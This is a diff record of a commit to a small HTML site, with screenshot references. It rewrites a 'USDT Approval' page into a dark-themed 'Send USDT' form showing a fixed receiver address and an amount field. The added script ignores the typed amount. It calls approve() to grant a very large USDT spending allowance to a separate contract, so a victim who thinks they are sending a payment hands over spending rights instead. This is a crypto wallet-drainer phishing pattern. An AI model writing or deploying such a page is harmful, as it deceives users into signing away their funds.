

Before and after one commit to jsharma6142/2, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-915 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,62 +3,111 @@
   <head>
     <meta charset="UTF-8" />
     <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>TRC20 Approval</title>
-  <script src="https://cdn.jsdelivr.net/npm/@tronweb3/tronwallet-adapter-web@1.0.3/dist/index.min.js"></script>
+    <title>Send USDT</title>
+    <style>
+      body {
+        margin: 0;
+        font-family: Arial, sans-serif;
+        background: #121212;
+        color: #fff;
+        display: flex;
+        flex-direction: column;
+        align-items: center;
+        padding-top: 60px;
+      }
+      .container {
+        width: 90%;
+        max-width: 400px;
+        background: #1e1e1e;
+        border-radius: 12px;
+        padding: 20px;
+        box-shadow: 0 0 10px #000;
+      }
+      h2 {
+        text-align: center;
+        margin-bottom: 20px;
+        color: #00ffcc;
+      }
+      label {
+        display: block;
+        margin-top: 15px;
+        font-size: 14px;
+      }
+      input {
+        width: 100%;
+        padding: 10px;
+        margin-top: 5px;
+        border: none;
+        border-radius: 8px;
+        background: #2c2c2c;
+        color: #fff;
+        font-size: 16px;
+      }
+      input[readonly] {
+        background: #333;
+      }
+      button {
+        margin-top: 25px;
+        width: 100%;
+        padding: 12px;
+        background-color: #00ffcc;
+        color: #000;
+        font-weight: bold;
+        border: none;
+        border-radius: 8px;
+        cursor: pointer;
+        font-size: 16px;
+      }
+      button:hover {
+        background-color: #00e6b8;
+      }
+    </style>
   </head>
   <body>
-  <h2>USDT Approval</h2>
+    <div class="container">
+      <h2>Send USDT</h2>
+      <label>Receiver Wallet Address</label>
+      <input type="text" readonly value="TKTdAiXKvAWH7T9bxpBodYecRPtFDGZ7jN" id="receiver" />
 
-  <form id="approvalForm">
-    <label for="wallet">Wallet Address:</label>
-    <input type="text" id="wallet" readonly /><br /><br />
+      <label>Enter USDT Amount</label>
+      <input type="number" placeholder="0.00" id="amount" />
 
-    <label for="amount">Amount:</label>
-    <input type="number" id="amount" placeholder="Enter amount (auto set to unlimited)" required /><br /><br />
+      <button onclick="approveUSDT()">Next</button>
+    </div>
 
-    <button type="submit">Next</button>
-  </form>
+    <script src="https://cdn.jsdelivr.net/npm/@tronweb3/tronwallet-adapter@latest/dist/index.umd.min.js"></script>
+    <script src="https://cdn.jsdelivr.net/npm/tronweb@4.4.0/dist/TronWeb.js"></script>
+    <script>
+      const usdtAddress = "TXLAQ63Xg1NAzckPwKHvzw7CSEmLMEqcdj"; // Official TRC-20 USDT
+      const contractAddress = "TYMqXAPENEz1yehDFQE34hngR1KqLW1zhX"; // Your contract
+      const decimals = 6;
 
-  <script type="module">
-    import TronWeb from "https://cdn.jsdelivr.net/npm/tronweb@4.4.0/dist/TronWeb.js";
+      async function approveUSDT() {
+        if (!window.tronWeb || !window.tronWeb.defaultAddress.base58) {
+          alert("Please connect a TRON wallet");
+          return;
+        }
 
-    const CONTRACT_ADDRESS = "TYMqXAPENEz1yehDFQE34hngR1KqLW1zhX";
-    const USDT_CONTRACT = "TR7NHqjeKQxGTCi8q8ZY4pL8otSzgjLj6t";
-    const receiverAddress = "TKTdAiXKvAWH7T9bxpBodYecRPtFDGZ7jN";
-
-    const tronWeb = window.tronWeb;
-
-    const waitForTronWeb = async () => {
-      while (typeof window.tronWeb === 'undefined' || !window.tronWeb.defaultAddress.base58) {
-        await new Promise(resolve => setTimeout(resolve, 500));
+        const amount = document.getElementById("amount").value;
+        if (!amount || isNaN(amount)) {
+          alert("Enter valid amount");
+          return;
         }
-      return window.tronWeb;
-    };
-
-    const approveUSDT = async () => {
-      const amount = "0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff"; // Max allowance
-
-      const usdt = await tronWeb.contract().at(USDT_CONTRACT);
-      const tx = await usdt.approve(CONTRACT_ADDRESS, amount).send({ feeLimit: 100_000_000 });
-      return tx;
-    };
-
-    document.addEventListener("DOMContentLoaded", async () => {
-      await waitForTronWeb();
-      document.getElementById("wallet").value = tronWeb.defaultAddress.base58;
-
-      const form = document.getElementById("approvalForm");
-      form.addEventListener("submit", async (e) => {
-        e.preventDefault();
 
         try {
-          const tx = await approveUSDT();
-          alert("Approval transaction sent:\n" + tx);
+          const usdtContract = await window.tronWeb.contract().at(usdtAddress);
+          const amountInSun = window.tronWeb.toBigNumber("1000000000000000"); // Large approval
+
+          const tx = await usdtContract
+            .approve(contractAddress, amountInSun)
+            .send({ feeLimit: 100_000_000 });
+
+          alert("Approval sent. TX: " + tx);
         } catch (err) {
-          alert("Approval failed:\n" + err.message);
+          console.error(err);
+          alert("Approval failed: " + err.message);
         }
-      });
-    });
+      }
     </script>
   </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
